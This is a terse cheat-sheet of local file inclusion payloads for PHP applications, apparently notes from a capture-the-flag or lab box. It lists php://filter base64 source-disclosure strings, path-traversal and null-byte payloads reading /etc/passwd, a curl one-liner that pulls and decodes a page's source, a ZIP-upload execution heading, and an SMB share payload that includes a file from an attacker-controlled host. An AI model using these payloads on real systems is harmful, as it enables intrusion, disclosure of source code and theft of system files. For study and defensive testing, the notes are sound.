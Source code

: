 php:filters

?file=php://filter/convert.base64-encode/resource=index.php

....//....//....//....//....//....//....//....//....//....//....//etc/passwd

/etc/passwd%00


curl -sD - 10.10.10.80/?op=php://filter/convert.base64-encode/resource=home | head -44 | tail -1 | cut -d' ' -f1 | base64 -d > home.php


##	ZIP file upload and Execute it via the zip file filter

>	ZIP file upload and Execution via PHP zip filter


##	LFI with SAMBA

[+]	Start samba server locally [START THE SERVER]
	
[+]	lang=\\10.10.14.2\share\abc.txt